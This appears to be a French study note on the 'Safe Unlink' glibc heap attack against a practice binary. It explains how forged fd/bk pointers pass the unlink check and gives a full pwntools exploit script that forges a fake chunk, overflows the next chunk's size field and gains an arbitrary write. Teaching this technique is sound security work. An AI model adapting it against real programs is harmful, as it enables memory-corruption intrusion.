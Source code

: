 ```yaml
---
title: 'Safe Unlink'
date: 2023-02-20
draft: true
description: "fa-solid fa-trash-can fa-fw fa-sm"
categories:
  - heap
  - attacks
tags:
  - pwn
  - heap
---
```


## Overview
Tout comme pour l'Unsafe Unlink, l'objectif de cette attaque est d'exploiter la manière dont sont consolidés les chunks dans [l'Unsorted Bin](Pwn/Heap/Bins#Unsorted%20Bins). La différence étant que le Safe Unlink vérifie que le chunk unlink est bien un chunk utilisé. C'est donc une attaque adaptée aux version modernes de la GLIBC et fonctionne même avec la présence du NX/DEP.
## Detail
Il y a 2 mitigations qui rendent l'Unsafe Unlik obsolète. Tout d'abord, la présence évidente du NX/DEP. De plus, une mitigation sur la procédure du unlink est maintenant implémentée. Cette protection vérifie que les **fd/bk** des chunks affectés par l'unlink pointent bien les uns vers le même chunk à unlink. 
![[Pasted image 20240110161831.png]]

On a donc un check sur la validité de la linked list. Ou presque...
Enfait le check vérifie que le fd et le bk du chunk qu'on essaye d'unlink pointent bien vers ce chunk.
![[Pasted image 20240112143517.png]]

Or, l'adresse des chunks est sauvegardée en mémoire, donc si on arrive à trouver l'adresse de ce pointeur, alors on pourra changer la valeur de ce pointeur et obtenir un arbitrary write.
![[Pasted image 20240112145403.png]]

L'attaque se passe donc en 2 étapes, obtenir un reflected write (on ne contrôle pas la valeur écrite), puis un arbitrary write.
### Step 1:
La première étape consiste à passer le unlinking check. Pour ça on va donc utiliser l'array qui save l'adresse du chunk. 
Pour la valeur de fd, on va la set à **m_array-0x18** puisque c'est le bk qui doit contenir l'adresse du chunk_A. Et pour la valeur de bk, on va la set à **m_array-0x10** puisque c'est le fd qui doit contenir l'adresse de chunk_A.

Une fois cela fait, on maintenant avoir, 2 fake chunks valides qui seront linked au chunk_A. Enfin pas tout à fait. Enfait, le m_array pointe vers les user_data du chunk_A, donc pas le chunk_A. Il faut donc trouver un moyen de modifier les metadata du chunk_A pour décaler le début 0x10 bytes plus loin.

Une fois l'unlink fait, l'adresse de **m_array-0x18** va overwrite l'adresse du chunk unlink.
### Step 2:
La référence à notre chunk initial sera donc overwrite par l'adresse de **m_array-0x18**. Ce qui va donc nous donner un chunk à l'adresse de **m_array-0x18**. Ainsi, en modifiant les user_data du chunk, on va pouvoir overwrite à nouveau l'adresse de **m_array** et ainsi obtenir un arbitrary write.

### Exploit
```python title:exploit.py
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("safe_unlink")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

# Index of allocated chunks.
index = 0

# Select the "malloc" option; send size.
# Returns chunk index.
def malloc(size):
    global index
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.recvuntil(b"> ")
    index += 1
    return index - 1

# Select the "edit" option; send index & data.
def edit(index, data):
    io.send(b"2")
    io.sendafter(b"index: ", f"{index}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")

# Select the "free" option; send index.
def free(index):
    io.send(b"3")
    io.sendafter(b"index: ", f"{index}".encode())
    io.recvuntil(b"> ")

io = start()

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.recvuntil(b"> ")
io.timeout = 0.1

# =============================================================================

# Request 2 small chunks, the first must be large enought to fit a fake small chunk inside it.
overflow = malloc(0x88)
victim = malloc(0x88)

# Prepare fake chunk metadata.
# A correct size field satisfies the size vs prev_size checks.
fake_chunk_header = p64(0) + p64(0x81)

# Set the fd such that the bk of the "chunk" it points to is the first entry in m_array.
fd = elf.sym.m_array - 0x18

# Set the bk such that the fd of the "chunk" it points to is also the first entry in m_array.
bk = elf.sym.m_array - 0x10

# Set the prev_size field of the next chunk to the actual previous chunk size - 0x10.
prev_size = 0x80

# Write the fake chunk metadata to the "overflow" chunk.
# Overflow into the succeeding chunk's size field to clear the prev_inuse flag.
edit(overflow, fake_chunk_header + p64(fd) + p64(bk) + p8(0)*0x60 + p64(prev_size) + p64(0x90))

# Free the "victim" chunk to trigger backward consolidation with the "overflow" chunk.
free(victim)

# After unlinking, the first entry in m_array points 0x18 bytes before m_array itself.
# Use the "edit" option to overwrite the first entry in m_array again with the address of the target data.
edit(0, b"X"*0x18 + p64(elf.sym.target))

# Use the "edit" option once more to overwrite the target data.
edit(0, b"Much win!")

# Check that the target data was overwritten.
io.sendthen(b"target: ", b"4")
target_data = io.recvuntil(b"\n", True)
assert target_data == b"Much win!"
io.recvuntil(b"> ")

# =============================================================================

io.interactive()
```
## Further use
Ici, la technique a été décrite dans le cas d'une backward consolidation, mais il est tout a fait possible de le faire également en forward.
## Limitations
Une check sur la size et le prev_size à été ajouté à la version 2.26 de la GLIBC. Il necessite que l'adresse du chunk+size soit égale au size field.
